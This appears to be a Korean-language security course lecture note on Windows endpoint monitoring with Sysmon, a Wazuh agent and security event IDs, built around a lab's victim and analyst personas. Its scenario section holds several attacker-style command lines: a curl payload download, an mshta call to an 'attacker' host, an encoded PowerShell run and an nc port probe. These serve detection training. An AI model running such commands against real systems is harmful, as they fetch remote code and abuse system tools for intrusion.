


# Week 03 — Windows 엔드포인트 운영 — victim 직원 PC + analyst 보안담당 PC [신설]

> **본 주차 한 줄 요약**
>
> 6v6 인프라에 새로 들어온 **Windows 11 사용자 PC(10.20.32.60)** 를 두 페르소나로 운영한다 —
> **victim 직원 PC** (일반 사용자 시점, 우발적으로 위협에 노출되는 자리) + **analyst 보안담당 PC**
> (분석가 시점, SIEM/EDR 콘솔로 위협을 조사하는 자리). **Sysmon + Wazuh 에이전트 + Windows 보안로그**
> 가 SIEM 으로 흘러들어가는 데이터 흐름을 머리에 그리고, 방화벽(W2) 이 못 본 일을 **엔드포인트가
> 잡는** 케이스를 R/B/P 로 5건 푼다. 본 주차는 **W2 의 방화벽 1주 절약분** 으로 신설된 정식 주차다.

---

## 0. 학습 목표

본 주차가 끝나면 운영자(여러분)는 다음을 한다.

1. Windows 엔드포인트(10.20.32.60) 가 6v6 의 어디에 있고 누구와 통신하는지 말할 수 있다.
2. **두 페르소나** (victim/analyst) 의 의미를 알고, 각자 어떤 화면을 본다고 설명한다.
3. **Sysmon** 의 주요 EID (1/3/7/8/10/11/22) 와 **Windows 보안 채널** 의 핵심 EID (4624/4625/4688)
   을 보고 무엇이 일어났는지 1줄로 해석한다.
4. **Wazuh Windows agent** 가 어떤 채널(Sysmon/Security/Application) 을 tail 해 매니저로 보내는지
   `ossec.conf` 한 블록을 읽어 답한다.
5. SIEM(Wazuh dashboard / agent_control / archives) 에서 **특정 호스트의 시간대별 이벤트** 를 조회한다.
6. **R/B/P 시나리오 5건** — (a) 의심 다운로드 (b) PowerShell base64 인코딩 실행 (c) 인증 실패 폭주
   (d) LOLBAS (mshta/rundll32 류) (e) 외부 RDP 시도 — 을 직접 재현·관찰·대응한다.
7. **방화벽(W2) + 엔드포인트(W3)** 가 함께 일하는 다층 방어의 1 그림을 그린다.
8. 분석가의 **SOP 3 단계** (Triage → Investigate → Contain) 를 victim PC 사건에 적용한다.

> **본 주차의 시선** — Windows 의 내부 동작(커널/레지스트리/PE 포맷) 을 깊이 파지 않는다. 우리는
> "엔드포인트를 운영하면서 위협을 조사하는 사람" 의 시선이다. **데이터 흐름 + 화면 + R/B/P** 가 본 강의의 축.

---

## 1. 용어 8개

| 용어 | 뜻 | 운영자에게 의미 |
|------|----|----------------|
| 엔드포인트 (endpoint) | 사용자가 직접 쓰는 단말 (PC/노트북) | 침해의 가장 흔한 시작점·최종 목적지 |
| EDR (Endpoint Detection & Response) | 엔드포인트의 행위·이벤트를 수집·탐지·대응 | "안티바이러스의 진화형". 우리는 Sysmon+Wazuh 의 EDR-like 조합을 쓴다 |
| Sysmon (System Monitor) | Microsoft Sysinternals 의 윈도우 시스템 활동 로깅 도구 | 프로세스 생성·네트워크 연결·DLL 로드 등을 EID 로 기록 |
| Wazuh agent (Windows) | Windows 호스트에서 채널을 tail 해 매니저로 전송 | 우리 SIEM 의 윈도우측 끝단 |
| eventchannel | Windows 이벤트 로그 채널 (예: Microsoft-Windows-Sysmon/Operational) | Wazuh `<localfile>` 의 `<location>` 값 |
| EID (Event ID) | 이벤트 채널 안의 종류 번호 | 4624=로그온 성공, 4625=실패, Sysmon 1=프로세스 생성 |
| SwiftOnSecurity config | Sysmon 기본 설정의 사실상 표준 | 잡음 ↓ + 핵심 이벤트 ↑. 우리도 이걸 쓴다 |
| LOLBAS | Living Off the Land Binaries And Scripts | OS 정상 도구로 공격하는 기법. mshta/rundll32 등 |

---

## 2. 두 페르소나 — victim 직원 PC + analyst 보안담당 PC

같은 Windows 호스트 한 대(10.20.32.60) 를 두 가지 자리로 본다. 사용자 계정·세션·시점이 다르다.

### 2.1 victim 직원 PC

- **자리**: 영업/마케팅/총무 같은 **일반 직원** 의 책상.
- **하는 일**: 사내·외부 웹 접속, 메일 첨부 열기, 문서 작업, 가끔 신규 도구 설치.
- **위협 노출 경로**: 피싱 이메일 첨부, 악성 광고/스크립트, 외부 USB, 의심 URL 클릭.
- **운영자에게의 의미**: 침해의 **시작점**. "직원은 의심 행위를 의도적으로 하지 않는다, 하지만
  우발적으로 경로를 연다" 가 출발선.

### 2.2 analyst 보안담당 PC

- **자리**: 보안팀(SOC) 의 책상.
- **하는 일**: SIEM(Wazuh) 대시보드 조회, 알람 triage, 이벤트 timeline 분석, victim 사건 조사·대응.
- **사용 화면**: Wazuh 대시보드(http://siem-kibana.6v6.lab) + 콘솔(agent_control) + (필요 시 victim PC SSH/RDP).
- **운영자에게의 의미**: 침해의 **수습자**. 도구는 SIEM 중심.

> **두 페르소나가 같은 PC 인 이유** (실습 환경 한정): 학생은 한 명, 호스트는 한 대지만 **시점/계정/
> 어떤 화면을 보고 있는가** 로 두 역할을 오간다. 실제 운영은 PC 가 분리되어 있다.

### 2.3 둘이 어떻게 만나나 — 사건의 한 흐름



---

## 3. Windows 보안 이벤트 핵심 EID 9개

**Security 채널** 과 **Sysmon 채널** 에서 분석가가 매일 보는 것.

### 3.1 Windows Security 채널 (감사 정책 의존)

| EID | 의미 | 분석가가 본다는 의미 |
|-----|------|--------------------|
| 4624 | 로그온 성공 | 정상/비정상 로그온 시각·계정·LogonType |
| 4625 | 로그온 실패 | brute force, 정책 위반 시도 |
| 4688 | 새 프로세스 생성 (감사 정책 켜져야 기록) | Sysmon EID 1 과 보완 |
| 4672 | 특권 부여 (sensitive privilege assigned) | 관리자 로그온 추적 |
| 4720 | 사용자 계정 생성 | 침투 후 백도어 계정 |

### 3.2 Sysmon (Microsoft-Windows-Sysmon/Operational)

| EID | 의미 | 분석가가 본다는 의미 |
|-----|------|--------------------|
| 1   | 프로세스 생성 (Image + CommandLine + ParentImage) | 무엇이 무엇을 실행했나 — 가장 가치 높음 |
| 3   | 네트워크 연결 (Image + Destination IP/Port) | 어느 프로세스가 어디로 나갔나 — C2 추적 |
| 7   | 이미지(DLL) 로드 | DLL 사이드로딩 의심 |
| 8   | CreateRemoteThread | 코드 인젝션 |
| 10  | ProcessAccess (다른 프로세스에 핸들 오픈) | LSASS 덤프 의심 |
| 11  | FileCreate | 의심 위치 파일 생성 (Temp, Startup) |
| 22  | DNS 쿼리 | 어느 도메인에 물었나 — C2 도메인 추적 |

> **운영자가 외울 한 줄**: "Sysmon **1+3+22** 만 잘 봐도 침해 분석의 70%." 프로세스, 네트워크, DNS.

---

## 4. Sysmon + SwiftOnSecurity — 무엇을 잡고 무엇을 무시하나

Sysmon 은 설정파일(XML) 로 어떤 이벤트를 기록·제외할지 결정한다. **SwiftOnSecurity sysmon-config**
는 커뮤니티 사실상 표준 — 시끄러운 이벤트를 끄고 위협 가치 높은 것만 남긴다.

### 4.1 SwiftOnSecurity 가 ON 으로 두는 것 (요지)

- ProcessCreate (EID 1): 거의 모두 (단 Chrome 자체 자식 등은 일부 제외)
- NetworkConnect (EID 3): 외부 IP/특정 포트 위주
- DNS Query (EID 22): 외부 도메인 위주
- FileCreate (EID 11): Startup/Temp/Office 매크로 영역
- ImageLoad (EID 7): 의심 DLL 위치
- ProcessAccess (EID 10): LSASS 등 민감 프로세스

### 4.2 OFF 로 두는 것 (잡음 감축)

- Windows Update / SCM 자체 프로세스
- Defender 자체 동작
- 정상 Office/Chrome 의 알려진 자식 프로세스

> 운영에서는 **SwiftOnSecurity 를 시작점으로** 두고, 자기 환경의 잡음을 점차 끈다. 처음부터 모든
> 걸 잡으려 하면 SIEM 이 폭주한다.

### 4.3 우리 6v6 의 적용

본 6v6 의 Windows 호스트는 **OEM 자동설치 스크립트** (`/data/install.bat`) 가 다음을 함께 깐다:

1. **Sysmon 64-bit** + SwiftOnSecurity config (`sysmonconfig-export.xml`)
2. **Wazuh agent 4.10.0** + agent-auth (매니저 10.20.32.100 자동 등록)
3. **OpenSSH (Win32-OpenSSH v9.8.1.0p1-Preview)** + DefaultShell=PowerShell (운영자가 원격 점검)
4. **hosts** 파일 6v6.lab 도메인 등록 (fw/dvwa/juice/waf-gui/...)
5. **ICMP allow** + 방화벽 inbound 룰

설치 후 SIEM 의 agent_control 에 `6v6-win` 이 Active 로 나오고, Sysmon/Operational 채널이
매니저로 흐른다.

---

## 5. Wazuh Windows agent — 데이터 흐름

### 5.1 한 그림

```mermaid
flowchart LR
    OS[Windows 11<br/>10.20.32.60]:::win
    SY[Sysmon<br/>Microsoft-Windows-Sysmon/Operational]:::ch
    SE[Windows Security<br/>채널]:::ch
    WA[Wazuh agent<br/>C:\\Program Files (x86)\\ossec-agent]:::ag
    OC[ossec.conf<br/>&lt;localfile&gt; eventchannel]:::cfg
    MG[Wazuh manager<br/>10.20.32.100:1514]:::svc
    DA[Wazuh dashboard<br/>siem-kibana.6v6.lab]:::svc

    OS --> SY
    OS --> SE
    SY --> WA
    SE --> WA
    OC -.tail.-> WA
    WA --> MG --> DA
    classDef win fill:#e0eef8,stroke:#369
    classDef ch fill:#f4e8f8,stroke:#849
    classDef ag fill:#fff5d6,stroke:#c80
    classDef cfg fill:#fee,stroke:#c33
    classDef svc fill:#e8f8e8,stroke:#494
```

### 5.2 ossec.conf 의 한 블록을 읽는다

`C:\Program Files (x86)\ossec-agent\ossec.conf` 안의 핵심 부분:

```xml
<localfile>
    <location>Microsoft-Windows-Sysmon/Operational</location>
    <log_format>eventchannel</log_format>
</localfile>

<localfile>
    <location>Security</location>
    <log_format>eventchannel</log_format>
</localfile>
```

- `<location>` — 어느 채널을 tail
- `<log_format>eventchannel</log_format>` — 채널 형식. Windows 전용

> 운영자는 두 채널(Sysmon/Security) 이 켜져 있는지 확인하면 90% 끝난다. 나머지는 Application/System
> 채널 (선택).

### 5.3 매니저 쪽 — agent_control 로 가시화

siem 컨테이너에서:

```
docker exec 6v6-siem /var/ossec/bin/agent_control -l
```

→ `ID: 006, Name: 6v6-win, IP: any, Active` 같이 보이면 데이터 흐름 정상.

대시보드에서는 Discover/Agents 화면에 `6v6-win` 이 시간 흐름과 함께 이벤트를 쏟는다.

---

## 6. 분석가의 SIEM 워크플로 — Triage → Investigate → Contain

### 6.1 Triage (선별)

- 화면: Wazuh dashboard 의 **Alerts** 패널.
- 보는 것: alert.rule.level, agent.name, rule.description.
- 의사결정: 즉시 대응 / 조사 큐 / 무시(false positive 확정).
- 시간 예산: 알람당 ~30초.

### 6.2 Investigate (조사)

- 화면: **Discover** (raw 이벤트 검색).
- 흔한 쿼리:
  - `agent.name:6v6-win AND data.win.system.eventID:1` (Sysmon 프로세스 생성)
  - `agent.name:6v6-win AND data.win.system.eventID:3 AND data.win.eventdata.destinationIp:*<external>*`
  - `agent.name:6v6-win AND data.win.system.eventID:4625` (Security 로그온 실패)
- 사고 timeline 구축: 시간순 정렬 + 의심 행위 식별.

### 6.3 Contain (격리)

- 격리 도구: Wazuh active-response, 방화벽 룰(W2 의 객체에 의심 외부 IP 추가), 사용자 계정 잠금.
- 침해 호스트가 victim PC 라면: 네트워크 격리 → 메모리/디스크 보존 → 분석.

> 본 강의 실습은 (a) Triage 와 (b) Investigate 까지 다룬다. (c) Contain 의 자동화는 SOC 과목에서.

---

## 7. R/B/P 시나리오 5건

### 7.1 win-s01 — 의심 외부 다운로드 (curl/iwr) → Sysmon 1+3+22 합주

- Red (victim PC): `curl.exe -o C:\Users\ccc\Downloads\evil.bin http://10.20.30.202:8080/payload.bin`
- 관찰 (analyst SIEM): Sysmon EID 1 (curl.exe), EID 3 (10.20.30.202:8080), EID 22 (DNS) 의 3 이벤트.
- Blue: 방화벽 forward 에서 10.20.30.202 객체 추가 + Wazuh active-response 로 추가 격리.
- 교훈: **3 이벤트가 1 사건** 으로 묶인다 — analyst 의 timeline 시각의 핵심.

### 7.2 win-s02 — PowerShell base64 인코딩 실행

- Red: `powershell -EncodedCommand <base64>` (단순 `whoami` 인코딩).
- 관찰: Sysmon EID 1, CommandLine 에 `-EncodedCommand` + base64 문자열. (Wazuh 룰 사실상 표준)
- Blue: 룰 매칭 → high severity alert. PowerShell 정책 강화 또는 사용자 권한 검토.
- 교훈: **CommandLine 의 패턴** 이 강력한 탐지 단서. base64/encoded/IEX 등.

### 7.3 win-s03 — 인증 실패 폭주 (Windows EID 4625)

- Red: RDP/SSH 실패 반복 (외부 → 내부 또는 가짜 사용자 로그온 시도).
- 관찰: Security 채널 EID 4625 가 시간 윈도 안에 임계 초과.
- Blue: Wazuh 룰 100500 (W1 에서 만든 SSH brute) 같은 방식의 Windows 4625 그룹 룰.
- 교훈: **frequency + timeframe + same_source_ip** 의 그룹화 룰 패턴 (W1 의 SSH 와 동일).

### 7.4 win-s04 — LOLBAS (rundll32 / mshta 의심 호출)

- Red: `mshta.exe http://attacker/evil.hta` (실제 호출은 시뮬레이션 — 응답 없어도 EID 생성).
- 관찰: Sysmon EID 1 (mshta.exe + http URL CommandLine).
- Blue: mshta 의 외부 URL 호출 룰. 정상 환경에선 거의 안 보이는 패턴.
- 교훈: **LOLBAS 는 OS 정상 도구라 차단이 아닌 탐지** 가 핵심. 컨텍스트(부모/인자) 로 판단.

### 7.5 win-s05 — 외부 RDP 시도 (방화벽이 막아 둔 경우와의 비교)

- Red (외부 공격자): `nc -vz 10.20.32.60 3389` 또는 RDP 클라이언트로 연결 시도.
- 관찰: 방화벽 로그에서 차단 + (도달 못함). 도달했더라도 Security EID 4625/4624 흔적.
- Blue: 방화벽 forward 에서 3389 외부 차단 룰 유지 + RDP 자체를 관리망에서만 열기.
- 교훈: **방화벽(W2) + 엔드포인트(W3) = 다층 방어**. 한쪽이 뚫려도 다른 쪽이 잡는다.

---

## 8. 다층 방어 — W2(방화벽) + W3(엔드포인트) 한 그림



- **방화벽** 이 ① 경계에서 차단/허용을 결정 — 통과한 것은 더 이상 못 본다.
- **엔드포인트** 가 ② 호스트 내부의 행위를 본다 — 방화벽이 못 본 dmz 내부 통신도 잡는다.
- **SIEM** 이 둘을 한 timeline 으로 묶는다 — analyst 가 그 timeline 으로 사건을 푼다.

---

## 9. 운영 트러블슈팅 — Windows 엔드포인트 빈출 4 가지

| 증상 | 확인 | 처치 |
|------|------|------|
| "Windows agent 가 SIEM 에 안 보인다" | `agent_control -l` 에 `Name: 6v6-win` 없음 | agent-auth 재실행, client.keys 확인, manager IP 확인 |
| "Sysmon 이벤트가 안 온다" | Windows 의 `Get-WinEvent -LogName Microsoft-Windows-Sysmon/Operational` 로 확인 | ossec.conf `<localfile>` Sysmon 채널 등록 누락 |
| "Security 4625 이벤트가 안 잡힌다" | 로컬 그룹정책 감사 정책 미설정 | `auditpol /set /subcategory:"Logon" /failure:enable` |
| "agent 가 Disconnected 로 자꾸 변한다" | 방화벽 1514/1515 차단 가능성 | dmz 안 매니저는 동일 zone → 보통 OK. 외부 격리 시 룰 필요 |

---

## 10. 핵심 정리 (8 줄)

1. **두 페르소나** — victim 직원 PC + analyst 보안담당 PC. 같은 호스트, 다른 시점/계정.
2. **Sysmon 1/3/22 만 잘 봐도** 침해 분석의 70%. + Security 4624/4625/4688 보강.
3. **SwiftOnSecurity** Sysmon config 가 사실상 표준 — 잡음 ↓ + 위협 ↑.
4. **Wazuh Windows agent** = ossec.conf `<localfile>` eventchannel 로 채널 tail → 매니저 전송.
5. **agent_control -l** 에 `Name: 6v6-win` 이 Active 면 데이터 흐름 정상.
6. **분석가의 SOP** = Triage → Investigate → Contain.
7. **방화벽 + 엔드포인트** = 다층 방어. 둘이 같이 봐야 사건이 풀린다.
8. **R/B/P 5건** 으로 다운로드 / PowerShell / 4625 / LOLBAS / RDP 의 표준 패턴 학습.

---

## 11. 과제

1. ossec.conf 의 `<localfile>` 두 블록(Sysmon/Security) 을 캡처해 채널·log_format 을 표시하라.
2. victim PC 에서 `whoami` 를 powershell base64 로 인코딩 실행하고, SIEM 의 어떤 alert 가 떴는지
   alert.rule.description 을 캡처하라.
3. SSH 로 victim PC 에 4625 가 기록되도록 잘못된 비밀번호로 5회 로그인을 시도해, Security 채널의
   4625 카운트가 5 이상 증가했음을 확인하라.
4. mshta.exe 가 외부 URL 을 인자로 받은 Sysmon EID 1 이벤트를 generation 하고, analyst SIEM 에서
   그 이벤트의 CommandLine 필드를 캡처하라.
5. (생각) **방화벽이 못 본 행위 3가지** 와 그것을 **엔드포인트가 어떻게 보는가** 를 본 6v6 구조에서
   구체적으로 들고 1문단씩 쓰라.

---

## 12. 다음 주차 (W04) 예고 — IPS (Suricata) 기초

W2 의 방화벽이 IP/포트 단위로, W3 의 엔드포인트가 호스트 행위 단위로 본다면, W4 의 IPS 는 **트래픽
의 페이로드** 를 들여다본다. 우리는 6v6-ips 의 Suricata 로 — 룰 구조·시그니처·alert/drop·eve.json
의 흐름을 익힌다.
